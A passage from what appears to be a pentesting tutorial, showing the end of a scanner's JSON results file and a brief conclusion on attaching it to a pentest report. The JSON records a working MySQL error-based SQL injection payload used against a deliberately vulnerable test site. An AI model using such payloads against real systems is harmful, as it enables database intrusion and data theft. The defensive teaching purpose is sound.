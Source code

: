 ```json
                    "vector_payload": "urname=aaa'||(SELECT 0x7a524543 WHERE 6374=6374 AND GTID_SUBSET(CONCAT(0x71766b6a71,(SELECT (ELT(2043=2043,1))),0x71706b7871),2043))||'&ucc=1234-5678-2300-9000&uemail=email@email.com&uphone=2323345&uaddress=21 street&update=update"
                }
            ]
        },
        {
            "url": "http://testphp.vulnweb.com/search.php?test=query",
            "is_vuln": false,
            "vectors": []
        }
    ]
}
```

## Conclusion
This way, we can use the JSON file generated by the script as an attachment to our pentest report or presentation. You can even modify the script to generate a specifically formatted file that fits your particular case.
